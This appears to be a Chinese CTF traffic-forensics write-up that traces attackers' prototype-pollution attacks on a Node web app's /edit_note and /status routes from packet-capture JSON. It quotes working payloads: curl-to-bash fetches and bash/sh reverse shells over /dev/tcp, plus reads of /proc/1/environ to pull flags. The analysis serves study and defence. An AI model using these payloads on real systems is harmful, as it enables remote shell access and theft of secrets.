"tcp.options.timestamp_tree": {"tcp.option_kind": "8", "tcp.option_len": "10", "tcp.options.timestamp.tsval": "1994132333", "tcp.options.timestamp.tsecr": "2264460634"}}, "Timestamps": {"tcp.time_relative": "0.771079000", "tcp.time_delta": "0.000353000"}, "tcp.analysis": {"tcp.analysis.initial_rtt": "0.066503000", "tcp.analysis.flags": {"_ws.expert": {"tcp.analysis.retransmission": "", "_ws.expert.message": "This frame is a (suspected) retransmission", "_ws.expert.severity": "4194304", "_ws.expert.group": "33554432"}}}, "tcp.payload": "7b:22:69:64:22:3a:20:22:5f:5f:70:72:6f:74:6f:5f:5f:22:2c:20:22:61:75:74:68:6f:72:22:3a:20:22:63:63:63:63:22:2c:20:22:72:61:77:22:3a:20:22:62:61:73:68:20:2d:69:20:3e:26:20:2f:64:65:76:2f:74:63:70:2f:31:30:2e:30:2e:32:35:34:2e:32:39:2f:39:39:39:39:20:30:3e:26:31:22:7d"}}
```
(成功动作) `Apr 23, 2023 23:21:09.769932000` 攻击者通过`cat /proc/1/environ` 获得了`FLAG=4e69db48-2978-4f55-b3b5-1e14f5bc796f`
```
{"frame.time": "Apr 23, 2023 23:21:09.769932000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4", "tcp": {"tcp.srcport": "59434", "tcp.dstport": "9999", "tcp.port": "9999", "tcp.stream": "94893", "tcp.completeness": "47", "tcp.len": "286", "tcp.seq": "147", "tcp.seq_raw": "2967771530", "tcp.nxtseq": "433", "tcp.ack": "21", "tcp.ack_raw": "1549934690", "tcp.hdr_len": "32", "tcp.flags": "0x0018", "tcp.flags_tree": {"tcp.flags.res": "0", "tcp.flags.ae": "0", "tcp.flags.cwr": "0", "tcp.flags.ece": "0", "tcp.flags.urg": "0", "tcp.flags.ack": "1", "tcp.flags.push": "1", "tcp.flags.reset": "0", "tcp.flags.syn": "0", "tcp.flags.fin": "0", "tcp.flags.str": "\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7AP\u00b7\u00b7\u00b7"}, "tcp.window_size_value": "502", "tcp.window_size": "64256", "tcp.window_size_scalefactor": "128", "tcp.checksum": "0xc14e", "tcp.checksum.status": "2", "tcp.urgent_pointer": "0", "tcp.options": "01:01:08:0a:b4:54:cd:20:a6:91:cd:ae", "tcp.options_tree": {"tcp.options.nop": "01", "tcp.options.nop_tree": {"tcp.option_kind": "1"}, "tcp.options.timestamp": "08:0a:b4:54:cd:20:a6:91:cd:ae", "tcp.options.timestamp_tree": {"tcp.option_kind": "8", "tcp.option_len": "10", "tcp.options.timestamp.tsval": "3025456416", "tcp.options.timestamp.tsecr": "2794573230"}}, "Timestamps": {"tcp.time_relative": "56.230577000", "tcp.time_delta": "0.288045000"}, "tcp.analysis": {"tcp.analysis.initial_rtt": "0.069482000", "tcp.analysis.bytes_in_flight": "286", "tcp.analysis.push_bytes_sent": "286", "tcp.analysis.flags": {"_ws.expert": {"tcp.analysis.retransmission": "", "_ws.expert.message": "This frame is a (suspected) retransmission", "_ws.expert.severity": "4194304", "_ws.expert.group": "33554432"}, "tcp.analysis.rto": "0.563212000", "tcp.analysis.rto_frame": "4369934"}}, "tcp.payload": "63:61:74:20:2f:70:72:6f:63:2f:31:2f:65:6e:76:69:72:6f:6e:0a:50:41:54:48:3d:2f:75:73:72:2f:6c:6f:63:61:6c:2f:73:62:69:6e:3a:2f:75:73:72:2f:6c:6f:63:61:6c:2f:62:69:6e:3a:2f:75:73:72:2f:73:62:69:6e:3a:2f:75:73:72:2f:62:69:6e:3a:2f:73:62:69:6e:3a:2f:62:69:6e:00:48:4f:53:54:4e:41:4d:45:3d:63:66:39:65:63:37:36:30:34:31:62:38:00:46:4c:41:47:3d:34:65:36:39:64:62:34:38:2d:32:39:37:38:2d:34:66:35:35:2d:62:33:62:35:2d:31:65:31:34:66:35:62:63:37:39:36:66:00:4e:4f:44:45:5f:56:45:52:53:49:4f:4e:3d:31:32:2e:31:36:2e:33:00:59:41:52:4e:5f:56:45:52:53:49:4f:4e:3d:31:2e:32:32:2e:34:00:4c:41:4e:47:3d:43:2e:55:54:46:2d:38:00:50:55:50:50:45:54:45:45:52:5f:53:4b:49:50:5f:43:48:52:4f:4d:49:55:4d:5f:44:4f:57:4e:4c:4f:41:3d:74:72:75:65:00:48:4f:4d:45:3d:2f:72:6f:6f:74:00:72:6f:6f:74:40:63:66:39:65:63:37:36:30:34:31:62:38:3a:2f:68:6f:6d:65:2f:6e:6f:64:65:2f:73:72:63:23:20", "tcp.segment_data": "63:61:74:20:2f:70:72:6f:63:2f:31:2f:65:6e:76:69:72:6f:6e:0a:50:41:54:48:3d:2f:75:73:72:2f:6c:6f:63:61:6c:2f:73:62:69:6e:3a:2f:75:73:72:2f:6c:6f:63:61:6c:2f:62:69:6e:3a:2f:75:73:72:2f:73:62:69:6e:3a:2f:75:73:72:2f:62:69:6e:3a:2f:73:62:69:6e:3a:2f:62:69:6e:00:48:4f:53:54:4e:41:4d:45:3d:63:66:39:65:63:37:36:30:34:31:62:38:00:46:4c:41:47:3d:34:65:36:39:64:62:34:38:2d:32:39:37:38:2d:34:66:35:35:2d:62:33:62:35:2d:31:65:31:34:66:35:62:63:37:39:36:66:00:4e:4f:44:45:5f:56:45:52:53:49:4f:4e:3d:31:32:2e:31:36:2e:33:00:59:41:52:4e:5f:56:45:52:53:49:4f:4e:3d:31:2e:32:32:2e:34:00:4c:41:4e:47:3d:43:2e:55:54:46:2d:38:00:50:55:50:50:45:54:45:45:52:5f:53:4b:49:50:5f:43:48:52:4f:4d:49:55:4d:5f:44:4f:57:4e:4c:4f:41:3d:74:72:75:65:00:48:4f:4d:45:3d:2f:72:6f:6f:74:00:72:6f:6f:74:40:63:66:39:65:63:37:36:30:34:31:62:38:3a:2f:68:6f:6d:65:2f:6e:6f:64:65:2f:73:72:63:23:20"}}
```


### 26
(准备动作) `Apr 22, 2023 21:44:14.091371000 `第一次访问网站
```
{"http": {"GET / HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "GET / HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "GET", "http.request.uri": "/", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Upgrade-Insecure-Requests: 1\r\n", "http.user_agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0", "http.accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "http.accept_language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "http.accept_encoding": "gzip, deflate", "http.connection": "keep-alive", "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/", "http.request": "1", "http.request_number": "47983", "http.prev_request_in": "2665858", "http.next_request_in": "2666371"}, "frame.time": "Apr 22, 2023 21:44:14.091371000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4"}
```
(成功动作) 随后攻击者启用了类似`dirsearch`的工具，对网站的路由进行了随机访问，例如`/.bash_history`,`/.settings`,`/resource.jsp`，产生了大量的访问日志（9000+）
```
{"http": {"GET /run.sh HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "GET /run.sh HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "GET", "http.request.uri": "/run.sh", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "cache-control: max-age=0\r\n", "http.user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36", "http.accept_encoding": "gzip, deflate", "http.accept": "*/*", "http.connection": "keep-alive", "http.cache_control": "max-age=0", "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/run.sh", "http.request": "1", "http.request_number": "75870", "http.next_request_in": "2798288"}, "frame.time": "Apr 22, 2023 21:50:27.143968000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4"}
```
(成功动作) `Apr 22, 2023 22:19:19.72053300`，攻击者开始针对`/edit_note`构造特殊参数，让服务器执行恶意命令，该命令内容是从攻击机获取一个shell.txt文件，然后执行，后半句主要功能是建立一个连接到远程服务器的 TCP 连接
```
{"http": {"POST /edit_note HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "POST /edit_note HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "POST", "http.request.uri": "/edit_note", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Content-Length: 120\r\n", "http.user_agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0", "http.accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "http.accept_language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "http.accept_encoding": "gzip, deflate", "http.connection": "close", "http.content_length_header": "120", "http.content_length_header_tree": {"http.content_length": "120"}, "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/edit_note", "http.request": "1", "http.request_number": "78922", "http.prev_request_in": "2856894", "http.response_in": "2873018", "http.next_request_in": "2960712", "http.file_data": "id=__proto__.cmd&author=curl http://99.999.9.26/shell.txt|bash&raw=paidx0\r\n\r\nbash -i >& /dev/tcp/99.999.9.26/2333 0>&1\r\n", "data": {"data.data": "69:64:3d:5f:5f:70:72:6f:74:6f:5f:5f:2e:63:6d:64:26:61:75:74:68:6f:72:3d:63:75:72:6c:20:68:74:74:70:3a:2f:2f:31:30:2e:32:35:34:2e:30:2e:32:33:2f:73:68:65:6c:6c:2e:74:78:74:7c:62:61:73:68:26:72:61:77:3d:70:61:69:64:78:30:0d:0a:0d:0a:62:61:73:68:20:2d:69:20:3e:26:20:2f:64:65:76:2f:74:63:70:2f:31:30:2e:32:35:34:2e:30:2e:32:33:2f:32:33:33:33:20:30:3e:26:31:0d:0a", "data.len": "120"}}, "frame.time": "Apr 22, 2023 22:19:19.720533000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4"}
```
(成功动作)` Apr 22, 2023 22:48:13.826773000`，攻击者访问/status使得命令被执行，获得反弹shell
```
{"http": {"GET /status HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "GET /status HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "GET", "http.request.uri": "/status", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Connection: keep-alive\r\n", "http.user_agent": "python-requests/2.28.2", "http.accept_encoding": "gzip, deflate", "http.accept": "*/*", "http.connection": "keep-alive", "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/status", "http.request": "1", "http.request_number": "78924", "http.prev_request_in": "2960712", "http.next_request_in": "2962649"}, "frame.time": "Apr 22, 2023 22:48:13.826773000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4"}
```


(成功动作) `Apr 22, 2023 23:08:01.488448000` 用户通过执行`cat environ` 获得了`FLAG=140fdfac-1d3c-4c00-bb79-a3a10cac3457`
```
{"frame.time": "Apr 22, 2023 23:08:01.488448000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4", "tcp": {"tcp.srcport": "36514", "tcp.dstport": "8888", "tcp.port": "8888", "tcp.stream": "59894", "tcp.completeness": "63", "tcp.len": "232", "tcp.seq": "757", "tcp.seq_raw": "1867372527", "tcp.nxtseq": "989", "tcp.ack": "54", "tcp.ack_raw": "2707629134", "tcp.hdr_len": "32", "tcp.flags": "0x0018", "tcp.flags_tree": {"tcp.flags.res": "0", "tcp.flags.ae": "0", "tcp.flags.cwr": "0", "tcp.flags.ece": "0", "tcp.flags.urg": "0", "tcp.flags.ack": "1", "tcp.flags.push": "1", "tcp.flags.reset": "0", "tcp.flags.syn": "0", "tcp.flags.fin": "0", "tcp.flags.str": "\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7AP\u00b7\u00b7\u00b7"}, "tcp.window_size_value": "502", "tcp.window_size": "64256", "tcp.window_size_scalefactor": "128", "tcp.checksum": "0x5813", "tcp.checksum.status": "2", "tcp.urgent_pointer": "0", "tcp.options": "01:01:08:0a:bd:2b:2b:41:08:cc:5b:de", "tcp.options_tree": {"tcp.options.nop": "01", "tcp.options.nop_tree": {"tcp.option_kind": "1"}, "tcp.options.timestamp": "08:0a:bd:2b:2b:41:08:cc:5b:de", "tcp.options.timestamp_tree": {"tcp.option_kind": "8", "tcp.option_len": "10", "tcp.options.timestamp.tsval": "3173722945", "tcp.options.timestamp.tsecr": "147610590"}}, "Timestamps": {"tcp.time_relative": "106.358841000", "tcp.time_delta": "0.001722000"}, "tcp.analysis": {"tcp.analysis.acks_frame": "3109693", "tcp.analysis.ack_rtt": "0.001722000", "tcp.analysis.initial_rtt": "0.068230000", "tcp.analysis.bytes_in_flight": "232", "tcp.analysis.push_bytes_sent": "232"}, "tcp.payload": "50:41:54:48:3d:2f:75:73:72:2f:6c:6f:63:61:6c:2f:73:62:69:6e:3a:2f:75:73:72:2f:6c:6f:63:61:6c:2f:62:69:6e:3a:2f:75:73:72:2f:73:62:69:6e:3a:2f:75:73:72:2f:62:69:6e:3a:2f:73:62:69:6e:3a:2f:62:69:6e:00:48:4f:53:54:4e:41:4d:45:3d:34:35:37:61:64:34:62:66:33:36:30:31:00:46:4c:41:47:3d:31:34:30:66:64:66:61:63:2d:31:64:33:63:2d:34:63:30:30:2d:62:62:37:39:2d:61:33:61:31:30:63:61:63:33:34:35:37:00:4e:4f:44:45:5f:56:45:52:53:49:4f:4e:3d:31:32:2e:31:36:2e:33:00:59:41:52:4e:5f:56:45:52:53:49:4f:4e:3d:31:2e:32:32:2e:34:00:4c:41:4e:47:3d:43:2e:55:54:46:2d:38:00:50:55:50:50:45:54:45:45:52:5f:53:4b:49:50:5f:43:48:52:4f:4d:49:55:4d:5f:44:4f:57:4e:4c:4f:41:3d:74:72:75:65:00:48:4f:4d:45:3d:2f:72:6f:6f:74:00"}}
```
通过对tcp报文的解码，可以发现编号26的真实IP是`10.254.0.23`


### 28
(准备动作) 在 `Apr 20, 2023 16:52:32.292543000 CST` 第一次进入网站
```
{"http": {"GET / HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "GET / HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "GET", "http.request.uri": "/", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Cache-Control: no-cache\r\n", "http.user_agent": "Mozilla/5.0 (X11; Linux aarch64; rv:91.0) Gecko/20100101 Firefox/91.0", "http.accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "http.accept_language": "en-US,en;q=0.5", "http.accept_encoding": "gzip, deflate", "http.connection": "keep-alive", "http.cache_control": "no-cache", "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/", "http.request": "1", "http.request_number": "10"}, "frame.time": "Apr 20, 2023 16:54:27.313758000 CST"}
```
(成功动作) 50分钟之后，在`Apr 20, 2023 17:41:23.359578000 CST`时间点，攻击者发现了`/edit_note`路由下的漏洞，并构造了特殊的参数开始了原型链污染的攻击。随后服务器返回了500 Internal Server Error
```
{"http": {"POST /edit_note HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "POST /edit_note HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "POST", "http.request.uri": "/edit_note", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Content-Length: 67\r\n", "http.cache_control": "max-age=0", "http.user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36", "http.accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "http.accept_encoding": "gzip, deflate", "http.accept_language": "zh-CN,zh;q=0.9", "http.content_type": "application/x-www-form-urlencoded;charset=utf-8", "http.connection": "close", "http.content_length_header": "67", "http.content_length_header_tree": {"http.content_length": "67"}, "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/edit_note", "http.request": "1", "http.request_number": "173", "http.prev_request_in": "10190786", "http.file_data": "id=__proto__&author=sh -i >& /dev/tcp/99.999.9.28/9999 0>&1&raw=1\r\n"}, "frame.time": "Apr 20, 2023 17:42:02.403985000 CST"}
```
(成功动作) `Apr 20, 2023 17:43:53.491393000 CST` 随后攻击者在访问了 `/status`路由，使得注入的参数被当做命令执行，从内容来看，应该是利用 Bash shell 创建反弹 shell 的命令，这条命令的主要功能是建立一个连接到远程服务器的 TCP 连接，并在这个连接上执行 shell 命令
```
{"http": {"GET /status HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "GET /status HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "GET", "http.request.uri": "/status", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.6", "http.request.line": "Connection: close\r\n", "http.user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36", "http.accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "http.accept_encoding": "gzip, deflate", "http.accept_language": "zh-CN,zh;q=0.9", "http.connection": "close", "\\r\\n": "", "http.request.full_uri": "http://10.0.0.6/status", "http.request": "1", "http.request_number": "175", "http.prev_request_in": "10193888"}, "frame.time": "Apr 20, 2023 17:42:23.295607000 CST"}
```
(成功动作) `Apr 20, 2023 17:44:14.741691000 CST` 攻击者在反弹的shell内执行`cd /proc`,`cd 1`,`cat environ`，获得`FLAG=8a5ccdd8-d8a7-4a0a-9d3e-0807cb6a4bdd`
```
{"frame.time": "Apr 20, 2023 17:44:14.741691000 CST", "tcp": {"tcp.srcport": "41194", "tcp.dstport": "9999", "tcp.port": "9999", "tcp.stream": "307136", "tcp.completeness": "15", "tcp.len": "232", "tcp.seq": "576", "tcp.seq_raw": "1936000299", "tcp.nxtseq": "808", "tcp.ack": "30", "tcp.ack_raw": "41881787", "tcp.hdr_len": "32", "tcp.flags": "0x0018", "tcp.flags_tree": {"tcp.flags.res": "0", "tcp.flags.ns": "0", "tcp.flags.cwr": "0", "tcp.flags.ecn": "0", "tcp.flags.urg": "0", "tcp.flags.ack": "1", "tcp.flags.push": "1", "tcp.flags.reset": "0", "tcp.flags.syn": "0", "tcp.flags.fin": "0", "tcp.flags.str": "\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7\u00b7AP\u00b7\u00b7\u00b7"}, "tcp.window_size_value": "502", "tcp.window_size": "64256", "tcp.window_size_scalefactor": "128", "tcp.checksum": "0x4a0c", "tcp.checksum.status": "2", "tcp.urgent_pointer": "0", "tcp.options": "01:01:08:0a:66:5e:1c:dd:c2:0c:b2:ba", "tcp.options_tree": {"tcp.options.nop": "01", "tcp.options.nop_tree": {"tcp.option_kind": "1"}, "tcp.options.timestamp": "08:0a:66:5e:1c:dd:c2:0c:b2:ba", "tcp.options.timestamp_tree": {"tcp.option_kind": "8", "tcp.option_len": "10", "tcp.options.timestamp.tsval": "1717443805", "tcp.options.timestamp.tsecr": "3255612090"}}, "Timestamps": {"tcp.time_relative": "21.230043000", "tcp.time_delta": "0.001425000"}, "tcp.analysis": {"tcp.analysis.acks_frame": "10201828", "tcp.analysis.ack_rtt": "0.001425000", "tcp.analysis.initial_rtt": "0.087331000", "tcp.analysis.bytes_in_flight": "232", "tcp.analysis.push_bytes_sent": "232"}, "tcp.payload": "50:41:54:48:3d:2f:75:73:72:2f:6c:6f:63:61:6c:2f:73:62:69:6e:3a:2f:75:73:72:2f:6c:6f:63:61:6c:2f:62:69:6e:3a:2f:75:73:72:2f:73:62:69:6e:3a:2f:75:73:72:2f:62:69:6e:3a:2f:73:62:69:6e:3a:2f:62:69:6e:00:48:4f:53:54:4e:41:4d:45:3d:37:39:39:39:31:61:64:33:39:32:38:64:00:46:4c:41:47:3d:38:61:35:63:63:64:64:38:2d:64:38:61:37:2d:34:61:30:61:2d:39:64:33:65:2d:30:38:30:37:63:62:36:61:34:62:64:64:00:4e:4f:44:45:5f:56:45:52:53:49:4f:4e:3d:31:32:2e:31:36:2e:33:00:59:41:52:4e:5f:56:45:52:53:49:4f:4e:3d:31:2e:32:32:2e:34:00:4c:41:4e:47:3d:43:2e:55:54:46:2d:38:00:50:55:50:50:45:54:45:45:52:5f:53:4b:49:50:5f:43:48:52:4f:4d:49:55:4d:5f:44:4f:57:4e:4c:4f:41:3d:74:72:75:65:00:48:4f:4d:45:3d:2f:72:6f:6f:74:00", "tcp.segment_data": "50:41:54:48:3d:2f:75:73:72:2f:6c:6f:63:61:6c:2f:73:62:69:6e:3a:2f:75:73:72:2f:6c:6f:63:61:6c:2f:62:69:6e:3a:2f:75:73:72:2f:73:62:69:6e:3a:2f:75:73:72:2f:62:69:6e:3a:2f:73:62:69:6e:3a:2f:62:69:6e:00:48:4f:53:54:4e:41:4d:45:3d:37:39:39:39:31:61:64:33:39:32:38:64:00:46:4c:41:47:3d:38:61:35:63:63:64:64:38:2d:64:38:61:37:2d:34:61:30:61:2d:39:64:33:65:2d:30:38:30:37:63:62:36:61:34:62:64:64:00:4e:4f:44:45:5f:56:45:52:53:49:4f:4e:3d:31:32:2e:31:36:2e:33:00:59:41:52:4e:5f:56:45:52:53:49:4f:4e:3d:31:2e:32:32:2e:34:00:4c:41:4e:47:3d:43:2e:55:54:46:2d:38:00:50:55:50:50:45:54:45:45:52:5f:53:4b:49:50:5f:43:48:52:4f:4d:49:55:4d:5f:44:4f:57:4e:4c:4f:41:3d:74:72:75:65:00:48:4f:4d:45:3d:2f:72:6f:6f:74:00"}}
```
最后通过对tcp报文解码发现编号28的真实ip为`10.254.0.33`


(其他成功动作) `Apr 23, 2023 20:25:51.612720000` 攻击者应该是用Postman 进行请求的，并且在Header中发现了`flag: ec6dd398-6ef7-400c-bf7e-201cabe25c3` 的结果
```
{"http": {"http.unknown_header": "Postman-Token: ec6dd398-6ef7-400c-bf7e-201cabe25c3c\\r\\n", "http.unknown_header_tree": {"_ws.expert": {"http.bad_header_name": "", "_ws.expert.message": "Illegal characters found in header name", "_ws.expert.severity": "6291456", "_ws.expert.group": "150994944"}}, "http.content_type": "application/json", "http.user_agent": "PostmanRuntime/7.31.3", "http.accept": "*/*", "http.host": "10.0.0.6", "http.accept_encoding": "gzip, deflate, br", "http.connection": "keep-alive", "http.content_length_header": "84", "http.content_length_header_tree": {"http.content_length": "84"}, "\\r\\n": "", "http.file_data": "{\"id\": \"__proto__\", \"author\": \"sh -i >& /dev/tcp/99.999.9.28/9999 0>&1\", \"raw\": \"1\"}"}, "frame.time": "Apr 23, 2023 20:24:45.989614000 \u4e2d\u56fd\u6807\u51c6\u65f6\u95f4"}
```

## 感想
由于日志文件过大，vscode崩溃了不下50回，最后也发现tcp报文比http报文等其他报文要要用的多，但是由于tcp.payload 是按照十六进制编码的，所以阅读和解析起来会比较麻烦，但一旦解析成功，就可以发现许多蛛丝马迹，信息量也是最大的。